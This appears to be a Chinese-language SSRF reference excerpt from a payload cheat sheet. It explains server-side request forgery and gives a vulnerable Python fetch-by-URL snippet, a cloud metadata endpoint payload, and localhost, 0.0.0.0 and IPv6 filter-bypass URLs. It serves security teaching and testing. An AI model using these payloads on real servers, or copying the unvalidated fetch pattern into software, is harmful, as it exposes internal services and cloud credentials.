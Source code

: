 SSRF是一种安全漏洞，当攻击者操纵服务器向非预期位置发出HTTP请求时发生。这通常发生在服务器处理用户提供的URL或IP地址时没有进行适当验证的情况下。

常见的利用路径：

* 访问云元数据
* 泄露服务器上的文件
* 网络发现，使用SSRF进行端口扫描
* 向网络上的特定服务发送数据包，通常是为了在另一台服务器上实现远程命令执行

**示例**：服务器接受用户输入来获取URL。

```py
url = input("输入URL:")
response = requests.get(url)
return response
```

攻击者提供恶意输入：

```ps1
http://169.254.169.254/latest/meta-data/
```



## 绕过过滤器

### 默认目标

默认情况下，服务器端请求伪造用于访问托管在`localhost`或网络上隐藏的服务。

* 使用`localhost`

  ```powershell
  http://localhost:80
  http://localhost:22
  https://localhost:443
  ```

* 使用`127.0.0.1`

  ```powershell
  http://127.0.0.1:80
  http://127.0.0.1:22
  https://127.0.0.1:443
  ```

* 使用`0.0.0.0`

  ```powershell
  http://0.0.0.0:80
  http://0.0.0.0:22
  https://0.0.0.0:443
  ```

### 使用IPv6表示法绕过本地主机限制

* 在IPv6中使用未指定地址`[::]`

    ```powershell
    http://[::]:80/
    ```
